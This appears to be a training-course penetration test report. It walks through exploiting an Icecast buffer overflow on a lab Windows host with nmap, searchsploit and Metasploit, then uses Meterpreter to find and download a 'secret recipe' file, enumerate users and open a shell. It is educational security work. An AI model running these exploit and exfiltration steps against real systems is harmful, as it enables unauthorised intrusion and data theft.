

# Penetration_Test_Engagement

In this activity, I played the role of an independent penetration tester hired by "GoodCorp Inc." to perform security tests against their CEO's workstation.

## GoodSecurity Penetration Report

RameshKuruba@GoodSecurity.com

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**

192.168.0.20

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

Icecast Header Overwrite

**Vulnerability Explanation:**
 
The Icecast Header Overwrite vulnerability running on 192.168.0.20 Host allows a buffer overflow exploit that lets an attacker system gain remote control of the victim system by overwriting the memory on the system. The exploit writes past the end of a pointer array when receiving 32 HTTP headers. This allowed for a variety of remote actions, such as file discovery and download, key logging, screen capture, and privilege escalation to Administrator.

**Severity:**

The severity of this vulnerability is High, with a CVSS score of 7.5.

**Proof of Concept:**

Perform a service and version scan using Nmap to determine which services are up and running:

- Run the Nmap command that performs a service and version scan against the target.

   > **Answer:** nmap -sV 192.168.0.20

   

From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

- Run the SearchSploit commands to show available Icecast exploits.

   > **Answer:** searchsploit icecast

   

Now that we know which exploits are available to us, let's start Metasploit:

- Run the command that starts Metasploit:

   > **Answer:** msfconsole

   
 
Search for the Icecast module and load it for use.

- Run the command to search for the Icecast module:

   > **Answer:** search icecast

   
 
- Run the command to use the Icecast module:

   > **Answer:** use 0

   
 
- Run the command that sets the RHOST:

   > **Answer:** set RHOST 192.168.0.20

   
 
- Run the command that runs the Icecast exploit.

   > **Answer:** exploit

   
 
You should now have a Meterpreter session open.

- Run the command that performs a search for the secretfile.txt on the target.

   > **Answer:** search -f *secretfile*.txt

   

- Run the command to performs a search for the recipe.txt on the target:

   > **Answer:** search -f *recipe*.txt

   

- Run the command that ex-filtrates the recipe*.txt file:

   > **Answer:** download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’

   

- Verify that you have successfully downloaded the file.

   > **Verification:**

    

You can also use Meterpreter's local exploit suggester to find possible exploits.

- Run the command to use Meterpreter’s local exploit suggester.

  > **Answer:** run post/multi/recon/local_exploit_suggester

  

- Run a Meterpreter post script that enumerates all logged on users.

   > **Answer:** run post/windows/gather/enum_logged_on_users

  

- Run the command to open a Meterpreter shell and gather system information for the target.

   > **Answer:** shell

   

- Run the command that displays the target's computer system information:

   > **Answer:** systeminfo

   

### Separate findings for each vulnerability can be found below:

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ikeext_service

**Vulnerability Explanation:**

The ikeext_service vulnerability utilizes a missing Dynamic-link library (DLL) in Microsoft’s operating system that runs as SYSTEM and starts automatically in default installations of select windows operating systems. This vulnerability can be used for privilege escalation under the SYSTEM account. It requires an insecure bin path to plant the DLL payload.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.0.

**Proof of Concept:** 

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ms16_075_reflection

**Vulnerability Explanation:**

The ms16_075_relfection vulnerability utilizes a reflection link between Distributed Component Object Model (DCOM) and Remote procedure call (RPC) that allows local users to use a crafted application to gain a SYSTEM handle for privilege escalation. The module does not start as SYSTEM by default. Once gaining a shell SYSTEM impersonation is possible.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.9.

**Proof of Concept:** 

### 3.0 Recommendations

The Icecast Header Overflow exploit is an older vulnerability that can be fixed with a current patch. It is recommended to update to the latest version of Icecast, found here: https://icecast.org/download/

Other technical recommendations would be to encrypt all sensitive data and enable firewall rules to only allow traffic on needed ports. 
